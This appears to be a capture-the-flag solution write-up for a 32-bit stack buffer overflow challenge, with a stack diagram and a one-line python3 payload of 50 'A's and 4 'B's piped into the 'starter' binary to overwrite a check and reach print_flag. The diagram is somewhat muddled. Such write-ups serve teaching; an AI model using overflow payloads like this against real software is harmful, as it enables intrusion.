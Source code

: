 ## Solution

It is a basic stack overflow of a variable. The program is compiled without any protections in 32 bits.
The aim for the player, logged into pwn3r, is to exploit a basic stack buffer overflow.
In order to gain access to the flag owned by pwn3r-cracked, the player has to call `print_flag`.
The player may use python3, gdb, build-essentials tools on the container to achieve this and work in /tmp to avoid spoilers:

```bash
cd $(mktemp -d)
```

------------- 0xbf???f
| EBP (top) |
|-----------|
| EIP (ret) |  <- printf_flag called when the check is well changed
|-----------|
| flag[100] |
|-----------|            +
| EIP (ret) |  <- main   |
|-----------|            |
| EBP (top )|            -
|-----------|
|flag (4 b.)|  <- 50+4 bytes to overflow the check
|-----------|
|  buf[50]  |
|-----------| 0xbf???0
  ESP (bottom)


We can put `fgets(buf, 0x50, stdin)'` = 80 chars in `buf`. From 50 chars, flag is achieved.

Assuming 0x42=B in ascii, we have:

```bash
python3 -c 'import sys;sys.stdout.write("A"*50+"B"*4)' | ./starter
```

